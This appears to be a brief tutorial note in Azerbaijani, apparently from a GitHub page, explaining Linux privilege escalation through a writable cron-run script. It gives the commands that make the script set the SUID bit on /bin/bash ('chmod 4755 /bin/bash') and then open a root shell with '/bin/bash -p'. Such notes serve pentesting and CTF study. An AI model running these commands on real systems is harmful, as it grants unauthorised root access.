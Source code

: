 ## EGER  CRONTAB EMRI ILE  HANSISA TEXT FAYLI GORURUKSE VE O FAYLA DEYISIKLIK EDE BILIRIKSE VE HEMIN FAYla 
    # nano {faylin adi}
## NANO VERENDEN SONRA VE HEMIN FAYLA DAXIL OLURUQ
      #  #!/bin/bash 
    # chmod  4755 /bin/bash 

## VE ARTIQ CRONTABA TEYIN ETTIYI ZAMANDA RUNLAYANDA /bin/bash EMRINE SUIT VERMISH OLACAQ 
           #      /bin/bash -p 
EMRI ILE BIZ ARTIQ ROOTA KECMISH OLURUQ
